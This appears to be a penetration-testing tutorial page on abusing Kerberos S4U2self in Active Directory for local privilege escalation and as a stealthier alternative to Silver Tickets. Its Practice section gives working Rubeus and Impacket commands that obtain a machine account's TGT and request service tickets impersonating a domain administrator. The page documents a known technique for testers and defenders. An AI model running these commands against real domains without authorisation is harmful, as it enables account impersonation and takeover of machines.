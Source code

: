 ```yaml
---
authors: ShutdownRepo, sckdev
category: ad
---
```


# S4U2self abuse

## Theory

The following recipe shows how to abuse S4U2self for Local Privilege Escalation, or for stealthier alternative to Silver Ticket. There are other tricks based on S4U2self, using u2u (user-to-user) as well.

### Delegation and extensions

Kerberos delegations allow services to access other services on behalf of domain users.

The "Kerberos" authentication protocol features delegation capabilities. Kerberos delegations can be abused by attackers to obtain access to valuable assets and sometimes even escalate to domain admin privileges. Regarding [constrained delegations](constrained.md) and [rbcd](rbcd.md), those types of delegation rely on Kerberos extensions called **S4U2Self** and **S4U2Proxy**.

Simply put, Service for User to Self (S4U2self) allows a service to obtain a Service Ticket, on behalf of a user (called "principal"), to itself.

Last but not least, S4U2self can be used to produce a Service Ticket to oneself on behalf of another domain user, even if that user is "sensitive for delegation" or member of the Protected Users group. Consequently, this allows attackers, in very specific scenarios, to escalate their privileges or perform lateral movements.

### Microsoft Virtual Accounts

Since machine accounts have their own set of SPNs by default at their creation, S4U2self can be used by any machine account, without any supplementary configuration. If an attacker manages to execute code as `NT AUTHORITY\NETWORK SERVICE` or as any other "Microsoft Virtual Account" (e.g. `defaultapppool` or `mssqlservice`) he will be able to escalate his privileges by abusing S4U2self. This happens because this kind of accounts all act on the network as the machine itself.

### OPSEC considerations

The S4U2self abuse is not only a great way to perform Local Privilege Escalation or a lateral move, it's also an way more stealthier alternative to [Silver Tickets](../forged-tickets/silver.md) when an attacker has knowledge of a machine account's Kerberos keys. While a Silver Ticket is a Service Ticket featuring a forged PAC, the Service Ticket issued after an S4U2self request will be legitimate and will feature a valid PAC.

## Practice

In order to obtain local admin rights on a target machine, the attackers must be able to execute code on the machine and conduct two major steps: obtain a TGT for the machine account, and use that TGT to make a S4U2self request in order to obtain a Service Ticket as domain admin for the machine.

```powershell
Rubeus.exe tgtdeleg /nowrap
```

### 1. Machine account's TGT

This step revolves around the `tgtdeleg` feature from [Rubeus](https://github.com/GhostPack/Rubeus) which allows an attacker that has code execution on a machine to ask a TGT, which will be the machine account's TGT (cf. [Microsoft Virtual Accounts](s4u2self-abuse.md#microsoft-virtual-accounts)).

```powershell
Rubeus.exe tgtdeleg /nowrap
```

The TGT can then be used with [Pass the Ticket](../ptt.md) for the next step, which can be conducted remotely if needed, unlike this initial step.

Alternatively, if the machine account credentials are known, a TGT can be requested commonly.

::: tabs

=== UNIX-like

From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket)'s [getTGT.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) (Python) script can be used for that purpose. However, this step is optional if getST.py is to be used later on for the S4U2self request. In this case, with the appropriate arguments, it will request a TGT automatically

```bash
getTGT.py -dc-ip "$DC_IP" -hashes :"$NT_HASH" "$DOMAIN"/"machine$"
```


=== Windows

From Windows machines, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose. However, this step is optional if Rubeus is to be used later on for the S4U2self request. In this case, with the appropriate arguments, Rubeus will request a TGT automatically.

```powershell
Rubeus.exe asktgt /nowrap /domain:"domain" /user:"computer$" /rc4:"NThash"
```

:::


### 2. Obtain a Service Ticket

The TGT can then be used along with S4U2self to obtain a Service Ticket impersonating another domain user on the machine. 

::: tabs

=== UNIX-like

From UNIX-like systems, [Impacket](https://github.com/SecureAuthCorp/impacket)'s getST.py (Python) script can be used for the purpose. If needed, `.kirbi` files can be converted to `.ccache` (cf. [Pass the Ticket](../ptt.md)).

```bash
export KRB5CCNAME="/path/to/ticket.ccache"
getST.py -self -impersonate "DomainAdmin" -altservice "cifs/machine.domain.local" -k -no-pass -dc-ip "DomainController" "domain.local"/'machine$' 
```


=== Windows

From Windows machines, [Rubeus](https://github.com/GhostPack/Rubeus) (C#) can be used for that purpose.

```powershell
Rubeus.exe s4u /self /nowrap /impersonateuser:"DomainAdmin" /altservice:"cifs/machine.domain.local" /ticket:"base64ticket"
```

:::


Once a Service Ticket is received, it can be used with [pass-the-ticket](../ptt.md)/[pass-the-cache](../ptc.md) to obtain access to oneself as the "DomainAdmin" (the user can be changed in the request. Attackers should select a domain user which has local admin rights on the machine).

> [!TIP]
> This technique can also be used when receiving TGTs during a [Kerberos Unconstrained Delegation abuse](unconstrained.md) in order to gain local admin privileges over the victims.

## Resources

[https://exploit.ph/delegate-2-thyself.html](https://exploit.ph/delegate-2-thyself.html)

[https://exploit.ph/revisiting-delegate-2-thyself.html](https://exploit.ph/revisiting-delegate-2-thyself.html)

[https://cyberstoph.org/posts/2021/06/abusing-kerberos-s4u2self-for-local-privilege-escalation](https://cyberstoph.org/posts/2021/06/abusing-kerberos-s4u2self-for-local-privilege-escalation)
